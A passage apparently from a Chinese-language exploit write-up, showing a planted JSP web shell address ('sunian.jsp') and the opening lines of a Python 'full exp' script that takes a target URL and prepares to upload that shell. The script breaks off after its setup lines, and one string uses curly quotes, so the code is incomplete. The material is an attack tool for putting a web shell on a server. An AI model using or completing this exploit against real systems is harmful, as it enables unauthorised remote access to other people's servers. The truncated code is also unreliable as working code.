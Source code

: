 > 虽然执行报错了，但是不影响
> shell地址：https://www.0-sec.org:7071/downloads/sunian.jsp

![3.png](../img/ccba9399e7f2b9e1f7ae14b6a0b65962.png)

### 完整版exp

![4.png](../img/58aca7f55ea5f43bed975fd39f0fb0f1.png)

```
#coding=utf8
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
base_url=sys.argv[1]
base_url=base_url.rstrip("/")
#利用request模块来发包和接受数据，sys模块用来传参，并删除最右侧的/斜杠

filename = “sunian.jsp”

```